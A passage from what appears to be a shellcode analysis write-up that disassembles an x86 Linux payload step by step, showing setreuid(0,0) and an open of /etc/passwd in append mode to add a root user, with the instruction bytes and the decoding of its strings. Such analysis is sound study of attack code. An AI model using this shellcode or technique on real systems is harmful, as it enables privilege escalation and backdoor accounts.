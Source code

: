 > setreuid(0, 0);

What this call does is sets our process to run as both real and effective id - 0 (root).\
Our next syscall block is:
```nasm
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
```
We see EAX being set to 0x5.  Let's check which syscall that is..
```shell
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 5
#define __NR_open 5
```
Open is defined as:
```c
int open(const char *pathname, int flags);
```
Next instructions:
```nasm
xor,ecx ecx
push ecx
push dword 0x64777373
push dword 0x61702f2f
push dword 0x6374652f
mov ebx, esp
```
This is pushing a string to the stack and terminating it with a null byte (ECX).  The stack pointer address is then moved into EBX, which will be the first parameter of open -- the pathname.  So we should expect a filename when we change the hex values to ascii.  
```
>>> binascii.unhexlify('6374652f')
'cte/'
>>> binascii.unhexlify('61702f2f')
'ap//'
>>> binascii.unhexlify('64777373')
'dwss'
```
With Little Endian, this translates to-- '/etc//passwd'.  So, as expected, we are going to be opening /etc/passwd in order to add a user.  The double '/' in the middle is a way to make the string fit into the qword size so there arent any issues with pushing the strings to the stack.  The trick uses the idea that the file path can have as many '/' in a row and it will still read the path as if it only has 1 slash in it. For example, /etc//////passwd, or /////etc/passwd both will be read as '/etc/passwd'.
```nasm
inc ecx
mov ch,0x4
int 0x80
```
ECX will hold the flag value for how we want to open the file.  1 means O_WRONLY. Next, 0x4 is moved into ch. ch is the upper 2 bytes of CX. Meaning CX is now 0x0401.  The flag constants are defined with octal values.  0x400 is octal 02000 which is defined as O_APPEND.\
The next instruction is the interrupt that calls open('/etc//passwd', O_WRONLY|O_APPEND);
```nasm
00000025  93                xchg eax,ebx
00000026  E822000000        call dword 0x4d
... (skipping to call location)
0000004C  0A598B            or bl,[ecx-0x75]
0000004F  51                push ecx
```